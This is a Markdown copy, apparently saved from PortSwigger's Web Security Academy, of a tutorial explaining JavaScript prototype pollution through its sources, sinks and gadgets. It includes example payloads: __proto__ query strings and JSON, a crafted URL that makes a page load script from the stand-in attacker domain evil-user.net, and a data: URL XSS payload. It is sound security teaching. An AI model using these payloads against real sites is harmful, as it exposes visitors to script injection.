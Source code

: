 ```yaml
---
created: 2023-09-10T00:01:27 (UTC -04:00)
tags: 
source: https://portswigger.net/web-security/prototype-pollution
author: null
dg-publish: true
---
```


> [!abstract] 
> Prototype pollution is a JavaScript vulnerability that enables an attacker to add arbitrary properties to global object prototypes, which may then be inherited by user-defined objects.
> 



---

![[prototype-pollution-infographic.svg]]
[Polluting a config object via prototype pollution](https://portswigger.net/web-security/prototype-pollution)

Although prototype pollution is often unexploitable as a standalone vulnerability, it lets an attacker control properties of objects that would otherwise be inaccessible. If the application subsequently handles an attacker-controlled property in an unsafe way, this can potentially be chained with other vulnerabilities. In client-side JavaScript, this commonly leads to [DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based), while server-side prototype pollution can even result in remote code execution.

#### JavaScript prototypes and inheritance

If you're unfamiliar with how prototypes and inheritance work in JavaScript, we recommend reading the following overview before continuing.

[JavaScript prototypes and inheritance](https://portswigger.net/web-security/prototype-pollution/javascript-prototypes-and-inheritance)

#### Labs

If you're already familiar with prototype pollution and just want to practice on a series of deliberately vulnerable sites, check out the link below for an overview of all labs in this topic.

-   [LABS View all prototype pollution labs](https://portswigger.net/web-security/all-labs#prototype-pollution)

## How do prototype pollution vulnerabilities arise?

Prototype pollution vulnerabilities typically arise when a JavaScript function recursively merges an object containing user-controllable properties into an existing object, without first sanitizing the keys. This can allow an attacker to inject a property with a key like `__proto__`, along with arbitrary nested properties.

Due to the [special meaning of `__proto__`](https://portswigger.net/web-security/prototype-pollution/javascript-prototypes-and-inheritance#accessing-an-object-s-prototype-using-proto) in a JavaScript context, the merge operation may assign the nested properties to the object's [prototype](https://portswigger.net/web-security/prototype-pollution/javascript-prototypes-and-inheritance#what-is-a-prototype-in-javascript) instead of the target object itself. As a result, the attacker can pollute the prototype with properties containing harmful values, which may subsequently be used by the application in a dangerous way.

It's possible to pollute any prototype object, but this most commonly occurs with the [built-in global `Object.prototype`](https://portswigger.net/web-security/prototype-pollution/javascript-prototypes-and-inheritance#the-prototype-chain).

Successful exploitation of prototype pollution requires the following key components:

-   [A prototype pollution source](https://portswigger.net/web-security/prototype-pollution#prototype-pollution-sources) - This is any input that enables you to poison prototype objects with arbitrary properties.
    
-   [A sink](https://portswigger.net/web-security/prototype-pollution#prototype-pollution-sinks) - In other words, a JavaScript function or DOM element that enables arbitrary code execution.
    
-   [An exploitable gadget](https://portswigger.net/web-security/prototype-pollution#prototype-pollution-gadgets) - This is any property that is passed into a sink without proper filtering or sanitization.
    

## Prototype pollution sources

A prototype pollution source is any user-controllable input that enables you to add arbitrary properties to prototype objects. The most common sources are as follows:

-   The [URL](https://portswigger.net/web-security/prototype-pollution#prototype-pollution-via-the-url) via either the query or fragment string (hash)
    
-   [JSON-based input](https://portswigger.net/web-security/prototype-pollution#prototype-pollution-via-json-input)
    
-   Web messages
    

### Prototype pollution via the URL

Consider the following URL, which contains an attacker-constructed query string:

`https://vulnerable-website.com/?__proto__[evilProperty]=payload`

When breaking the query string down into `key:value` pairs, a URL parser may interpret `__proto__` as an arbitrary string. But let's look at what happens if these keys and values are subsequently merged into an existing object as properties.

You might think that the `__proto__` property, along with its nested `evilProperty`, will just be added to the target object as follows:

```js
{ existingProperty1: 'foo', existingProperty2: 'bar', __proto__: { evilProperty: 'payload' } }
```

However, this isn't the case. At some point, the recursive merge operation may assign the value of `evilProperty` using a statement equivalent to the following:

`targetObject.__proto__.evilProperty = 'payload';`

During this assignment, the JavaScript engine treats `__proto__` as a getter for the prototype. As a result, `evilProperty` is assigned to the returned prototype object rather than the target object itself. Assuming that the target object uses the default `Object.prototype`, all objects in the JavaScript runtime will now inherit `evilProperty`, unless they already have a property of their own with a matching key.

In practice, injecting a property called `evilProperty` is unlikely to have any effect. However, an attacker can use the same technique to pollute the prototype with properties that are used by the application, or any imported libraries.

### Prototype pollution via JSON input

User-controllable objects are often derived from a JSON string using the `JSON.parse()` method. Interestingly, `JSON.parse()` also treats any key in the JSON object as an arbitrary string, including things like `__proto__`. This provides another potential vector for prototype pollution.

Let's say an attacker injects the following malicious JSON, for example, via a web message:

```js 
{ "__proto__": { "evilProperty": "payload" } }
```

If this is converted into a JavaScript object via the `JSON.parse()` method, the resulting object will in fact have a property with the key `__proto__`:

```js
const objectLiteral = {__proto__: {evilProperty: 'payload'}}; const objectFromJson = JSON.parse('{"__proto__": {"evilProperty": "payload"}}'); objectLiteral.hasOwnProperty('__proto__'); // false objectFromJson.hasOwnProperty('__proto__'); // true
```

If the object created via `JSON.parse()` is subsequently merged into an existing object without proper key sanitization, this will also lead to prototype pollution during the assignment, as we saw in the [URL-based example](https://portswigger.net/web-security/prototype-pollution#prototype-pollution-via-the-url) above.

## Prototype pollution sinks

A prototype pollution sink is essentially just a JavaScript function or DOM element that you're able to access via prototype pollution, which enables you to execute arbitrary JavaScript or system commands. We've covered some client-side sinks extensively in our topic on [DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based).

As prototype pollution lets you control properties that would otherwise be inaccessible, this potentially enables you to reach a number of additional sinks within the target application. Developers who are unfamiliar with prototype pollution may wrongly assume that these properties are not user controllable, which means there may only be minimal filtering or sanitization in place.

## Prototype pollution gadgets

A gadget provides a means of turning the prototype pollution vulnerability into an actual exploit. This is any property that is:

-   Used by the application in an unsafe way, such as passing it to a sink without proper filtering or sanitization.
    
-   Attacker-controllable via prototype pollution. In other words, the object must be able to inherit a malicious version of the property added to the prototype by an attacker.
    

A property cannot be a gadget if it is defined directly on the object itself. In this case, the object's own version of the property takes precedence over any malicious version you're able to add to the prototype. [Robust websites](https://portswigger.net/web-security/prototype-pollution/preventing#preventing-an-object-from-inheriting-properties) may also explicitly set the prototype of the object to `null`, which ensures that it doesn't inherit any properties at all.

### Example of a prototype pollution gadget

Many JavaScript libraries accept an object that developers can use to set different configuration options. The library code checks whether the developer has explicitly added certain properties to this object and, if so, adjusts the configuration accordingly. If a property that represents a particular option is not present, a predefined default option is often used instead. A simplified example may look something like this:

```js
let transport_url = config.transport_url || defaults.transport_url;
```

Now imagine the library code uses this `transport_url` to add a script reference to the page:

```js
let script = document.createElement('script'); script.src = `${transport_url}/example.js`; document.body.appendChild(script);`
```

If the website's developers haven't set a `transport_url` property on their `config` object, this is a potential gadget. In cases where an attacker is able to pollute the global `Object.prototype` with their own `transport_url` property, this will be inherited by the `config` object and, therefore, set as the `src` for this script to a domain of the attacker's choosing.

If the prototype can be polluted via a query parameter, for example, the attacker would simply have to induce a victim to visit a specially crafted URL to cause their browser to import a malicious JavaScript file from an attacker-controlled domain:

`https://vulnerable-website.com/?__proto__[transport_url]=//evil-user.net`

By providing a `data:` URL, an attacker could also directly embed an [XSS](https://portswigger.net/web-security/cross-site-scripting) payload within the query string as follows:

`https://vulnerable-website.com/?__proto__[transport_url]=data:,alert(1);//`

Note that the trailing `//` in this example is simply to comment out the hardcoded `/example.js` suffix.

